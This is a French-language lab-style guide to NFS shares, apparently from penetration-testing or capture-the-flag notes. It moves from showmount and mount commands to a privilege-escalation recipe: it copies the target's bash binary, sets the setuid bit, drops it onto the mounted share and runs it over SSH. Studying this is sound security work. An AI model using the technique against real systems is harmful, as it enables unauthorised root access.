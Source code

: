 # NFS

### NFS (Network File System)

NFS (Network File System) est un protocole utilisé pour partager des fichiers et des répertoires entre différents systèmes sur un réseau. Voici un guide complet pour interagir avec des partages NFS.

***

### **1. Découvrir les Partages NFS Disponibles**

Pour lister les partages disponibles sur une machine distante :

```bash
/usr/sbin/showmount -e [IP machine distante]
```

**Explication :**\
`showmount -e` affiche les répertoires exportés (partages NFS) disponibles sur la machine distante.

***

### **2. Créer un Point de Montage**

Avant de monter un partage NFS, créez un répertoire local qui servira de point de montage :

```bash
mkdir /tmp/mount
```

**Explication :**\
Ce répertoire sera utilisé pour accéder au contenu partagé par le serveur NFS.

***

### **3. Monter un Partage NFS**

Pour connecter un partage NFS à votre point de montage :

```bash
sudo mount -t nfs [IP machine distante]:[répertoire partagé] /tmp/mount -nolock
```

**Explication :**

* `-t nfs` : Indique que le système de fichiers est de type NFS.
* `[IP machine distante]:[répertoire partagé]` : Spécifie l’adresse IP du serveur et le répertoire partagé.
* `/tmp/mount` : Point de montage local sur votre machine.
* `-nolock` : Désactive le verrouillage des fichiers, utile pour éviter certains conflits avec NFS.

***

### **4. Transférer des Fichiers via SCP**

Pour récupérer un fichier (comme un exécutable `bash`) depuis une machine distante :

```bash
scp -i id_rsa [utilisateur]@[IP distante]:/chemin/vers/fichier ~/Téléchargements/
```

**Exemple :**

```bash
scp -i id_rsa cappucino@10.10.72.89:/bin/bash ~/Downloads/bash
```

**Explication :**

* `scp` : Utilitaire de copie sécurisée.
* `-i id_rsa` : Utilise une clé privée pour s’authentifier.
* `[utilisateur]@[IP distante]:[chemin fichier]` : Spécifie la machine distante, l’utilisateur, et le fichier à récupérer.
* `~/Téléchargements/` : Chemin local où le fichier sera sauvegardé.

***

### **5. Modifier les Droits sur le Fichier**

Pour définir le bit `suid` sur un fichier (ce qui permet d'exécuter le fichier avec les privilèges de son propriétaire) :

```bash
chmod +s bash
```

**Explication :**

* `+s` : Ajoute le bit `setuid`, permettant au fichier d’hériter des privilèges de l’utilisateur propriétaire.

***

### **6. Déplacer le Fichier sur le Partage NFS**

Déplacez le fichier modifié vers le partage monté :

```bash
mv ~/Downloads/bash /tmp/mount/[utilisateur]
```

***

### **7. Exécuter le Fichier sur la Machine Cible**

Reconnectez-vous à la machine distante en SSH et exécutez le fichier transféré :

```bash
ssh -i id_rsa [utilisateur]@[IP distante]
./bash
```

**Explication :**

* `ssh` : Accès à distance à la machine.
* `./bash` : Lance l’exécutable `bash` sur la machine distante avec les droits définis.
